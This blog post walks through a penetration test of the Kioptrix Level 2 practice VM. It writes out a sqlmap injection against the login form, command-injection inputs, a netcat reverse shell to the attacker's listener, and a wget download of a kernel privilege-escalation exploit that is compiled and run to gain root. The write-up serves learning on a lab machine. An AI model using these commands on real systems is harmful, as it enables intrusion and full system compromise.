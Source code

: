 ```yaml
---
layout:		post
title:  	"Kioptrix Level 2"
date: 		2018-02-26 14:00:00 +0800
summary:	Kioptrix Level 2 Penetration Test
categories:	kioptrix
---
```

Today we are going to solve Kioptrix Level 2. First we need to download the VM from the kioptrix website, add it to VMware and power it up!

We are met with this image:

![Kioptrix Login](/assets/kioptrix-start.png){:class="img-responsive"}

Let's get started. From my Kali machine I'm going to run an nmap scan, this will scan the entire network and we should be able to find the IP address of the Kioptrix machine. 

![nmap scan](/assets/nmap scan.PNG){:class="img-responsive"}

The nmap scan has brought back a number of open ports. The most interesting here would be the port 3306, the MySQL port. Let's look a bit further into that.

To do this we're going to use Metasploit. First we need to find out what version of MySQL is on the Kioptrix machine. We will do this with the following

{% highlight ruby %}
use auxiliary/scanner/mysql/mysql_version
#We then need to set a couple of parameters
set rhosts 192.168.1.101 #	This is the Kioptrix Machine IP 
			 #	that we found in the nmap scan
set rport 3306 #This is the open mysql port
run
{% endhighlight %}
<br>
<br>
![mysql](/assets/mysql version result.PNG){:class="img-responsive"}
<br>
<br>
Well, that didn't really get us anywhere. At least we know it is mySQL. Let's launch a browser, go to the IP address and see what we are greeted with. 
<br>
<br>
![landing](/assets/web landing page.PNG){:class="img-responsive"}
<br>
<br>
A login page. Let's use burpsuite, intercept the login and see what we can find out. 
<br>
<br>
![burpsuite](/assets/burpsuite.PNG){:class="img-responsive"}
<br>
<br>
Burpsuite has intercepted the login! Let's use this with sqlmap to try and get a workaround. 

In terminal we write:

{% highlight ruby %}
sqlmap -u "http://192.168.1.101/index.php" --data "uname=admin&psw=password&btnLogin=Login" --level=5 --risk=3
{% endhighlight %}

-u is for URL
--data this is where we put the data from our burpsuite intercept
--level is level of tests to perform from 1-5, may as well max it out
--risk is risk of tests 1-3, same again, max it out. As this isn't a real-world test we don't have to worry too much about the risk or level of attacks. 

![sqlmap complete](/assets/sqlmap-complete.PNG){:class="img-responsive"}

sqlmap has completed and found multiple injection points. Let's just use the username POST injection, we can do this in burpsuite by replacing the original code with the injection code. 

Now we are at this page:

![web after login](/assets/webpage after login.PNG){:class="img-responsive"}

What we need to now do is see if this textbox will run extra commands for us. Let's ping the Kioptrix machine and add {% highlight ruby %}; ls -l{% endhighlight %} and see if it brings back a list of files and owner of those files.

Sure enough, it does! Let's use another handy tool bundled in Kali, netcat

First we need to work out the location to put netcat on the Kioptrix machine. For this we use "; find / -name nc 2>/dev/null" into the webpage. This brings back "/usr/local/bin/nc". 

In Terminal, we get netcat listening with {% highlight ruby %}nc -lvp 1111{% endhighlight %}. I used port 1111, you can use whatever port you wish. 

Then back in the webapp textbox we need to input {% highlight ruby %}; /usr/local/bin/nc 192.168.1.5 -e '/bin/bash' 1111{% endhighlight %}



Now we've got a netcat connection going! Let's get some more information about the kernel. A quick {% highlight ruby %}uname -a{% endhighlight %} and we now know it's Linux Kernel 2.6.9-55 - Let's google an exploit

![uname](/assets/kernel.PNG){:class="img-responsive"}


http://www.exploit-db.com/exploits/9542/

This exploit seems like it's gonna work for us! It's been tested on a similar machine to this one. 

Let's save that to "/var/www/html", start Apache on our Kali machine and download the exploit through the session we created with netcat.

Okay, to download it let's first cd to /tmp. Now we can wget from our apache server, compile and execute!

![root](/assets/root.PNG){:class="img-responsive"}

Done! We are now root. I'll just change the password and login via the VM.

![have root](/assets/haveroot.PNG){:class="img-responsive"}


Thanks guys!
